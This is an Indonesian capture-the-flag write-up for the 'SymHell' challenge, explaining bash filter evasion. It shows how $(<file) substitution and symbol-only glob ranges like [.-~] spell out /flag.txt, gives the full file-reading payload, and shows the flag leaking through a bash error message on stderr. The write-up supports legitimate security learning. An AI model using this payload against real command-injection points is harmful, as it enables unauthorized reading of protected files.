

# SymHell — Analisis

[← Overview](31-symhell.md) · [Index](index.md)

### 2.1 Ide 1: `$(<file)` membaca file tanpa `cat`

Bash mendukung command substitution khusus:

```bash
$(<file)
```

Ini ekuivalen dengan `$(cat file)` dan menghasilkan isi file. Tidak perlu
menulis huruf `c`, `a`, `t`, atau path yang mengandung huruf.

### 2.2 Ide 2: glob bracket dari simbol

Nama file `/flag.txt` mengandung huruf yang diblokir. Namun glob bracket
bisa menulis **range ASCII** memakai tanda baca:

```text
[.-~]
```

Artinya: satu karakter apa pun dalam rentang `'.'` (0x2E) sampai `'~'`
(0x7E). Range ini mencakup huruf, angka, dan banyak tanda baca, tetapi
**penulisannya hanya memakai titik, minus, dan tilde** — semuanya lolos
filter.

Pola untuk `/flag.txt`:

```text
/                     -> slash
[.-~][.-~][.-~][.-~]  -> empat karakter pertama (f l a g)
.                     -> titik literal
[.-~][.-~][.-~]       -> tiga karakter ekstensi (t x t)
```

Jadi payload lengkapnya:

```text
$(</[.-~][.-~][.-~][.-~].[.-~][.-~][.-~])
```

Tidak ada huruf, angka, `?`, `*`, `#`, atau `<<<` di payload tersebut.

### 2.3 Ide 3: flag bocor lewat error message

Setelah command substitution, shell mencoba mengeksekusi hasilnya sebagai
command:

```text
NFX{5ymH3ll_RUnT1m3_3v4l_53cr3t_PwN!}
```

Karena bukan command yang valid, bash mencetak:

```text
bash: line 1: NFX{5ymH3ll_RUnT1m3_3v4l_53cr3t_PwN!}: command not found
```

Pesan ini masuk ke **stderr**. Karena stdout kosong, `app.py` mengirim
stderr ke client. Flag pun terbaca.

### 2.4 Catatan ambiguitas glob

Pola di atas mencocokkan file root dengan bentuk `4 karakter + . + 3
karakter`. Pada sistem uji, hanya `/flag.txt` yang cocok:

```text
root entries matching [.-~]x4 . [.-~]x3: ['flag.txt']
```

Jika ada lebih dari satu match, bash akan melaporkan `ambiguous redirect`.
Pada service asli, nama file yang diprobes adalah `/flag.txt` (lihat juga
writeup referensi), sehingga pola ini cukup.

### Evidence langkah ini



*Terminal evidence — `02-hashes.txt` (arsip transkrip sesi solve).*
